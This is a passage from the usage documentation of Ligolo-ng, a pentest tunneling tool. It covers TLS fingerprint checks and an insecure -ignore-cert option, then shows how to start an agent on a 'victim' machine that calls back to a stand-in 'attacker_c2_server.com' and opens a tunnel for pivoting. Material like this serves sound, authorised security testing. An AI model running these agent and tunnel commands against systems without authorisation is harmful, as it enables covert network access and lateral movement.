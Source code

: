 When running selfcert, you can run the `certificate_fingerprint` command to print the currently used certificate fingerprint.

```
ligolo-ng » certificate_fingerprint 
INFO[0203] TLS Certificate fingerprint for ligolo is: D005527D2683A8F2DB73022FBF23188E064493CFA17D6FCF257E14F4B692E0FC 
```

On the agent, you can then connect using the fingerprint provided by the Ligolo-ng proxy.

```
ligolo-agent -connect 127.0.0.1:11601 -v -accept-fingerprint D005527D2683A8F2DB73022FBF23188E064493CFA17D6FCF257E14F4B692E0FC                                               nchatelain@nworkstation
INFO[0000] Connection established                        addr="127.0.0.1:11601"
```

> By default, the "ligolo" domain name is used for TLS Certificate generation. You can change the domain by using the -selfcert-domain [domain] option at startup.

***Ignoring all certificate verification (for lab/debugging)***

To ignore all security mechanisms, the `-ignore-cert` option can be used with the *agent*.

> Beware of man-in-the-middle attacks! This option should only be used in a test environment or for debugging purposes.
### Using Ligolo-ng

#### Start the agent

Start the *agent* on your target (victim) computer (no privileges are required!):

```shell
$ ./agent -connect attacker_c2_server.com:11601
```

> If you want to tunnel the connection over a SOCKS5 proxy, you can use the `--socks ip:port` option. You can specify SOCKS credentials using the `--socks-user` and `--socks-pass` arguments.

A session should appear on the *proxy* server.

``` 
INFO[0102] Agent joined. name=nchatelain@nworkstation remote="XX.XX.XX.XX:38000"
```

Use the `session` command to select the *agent*.

```
ligolo-ng » session 
? Specify a session : 1 - nchatelain@nworkstation - XX.XX.XX.XX:38000
```

#### Start the tunneling

Start the tunnel on the proxy, using the `evil-cha` interface name.

```
[Agent : nchatelain@nworkstation] » tunnel_start --tun evil-cha
[Agent : nchatelain@nworkstation] » INFO[0690] Starting tunnel to nchatelain@nworkstation   
```
> On macOS, you need to specify a utun[0-9] device, like utun4.
